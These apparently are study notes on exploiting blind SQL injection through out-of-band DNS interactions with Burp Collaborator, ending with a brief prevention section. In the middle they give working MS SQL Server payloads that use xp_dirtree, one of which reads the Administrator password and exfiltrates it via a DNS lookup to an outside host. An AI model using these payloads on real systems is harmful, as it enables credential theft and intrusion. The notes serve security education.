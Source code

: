 
In this situation, exploit the blind SQL injection vulnerability by triggering **out-of-band network interactions** to a system that you control.
- As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time.
- But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose,
- typically the most effective is DNS (domain name service), because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.


The easiest and most reliable way to use out-of-band techniques is using **Burp Collaborator**.
- This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.
- Support for Burp Collaborator is built in to Burp Suite Pro


The techniques for triggering a DNS query are highly specific to the type of database being used.
- On Microsoft SQL Server,
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
  - to cause a DNS lookup on a specified domain
  - cause the database to perform a lookup for the following domain:
  - `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.


Having confirmed a way to trigger out-of-band interactions, then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

- This input reads the password for the Administrator user,
- appends a unique Collaborator subdomain,
- and triggers a DNS lookup.
- This will result in a DNS lookup like the following, allowing you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

**Out-of-band (OAST) techniques** are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.


---


#### prevent Blind SQL injection attacks

- Although the techniques needed to find and exploit blind SQL injection vulnerabilities are different and more sophisticated than for regular SQL injection, the measures needed to prevent SQL injection are the same regardless of whether the vulnerability is blind or not.
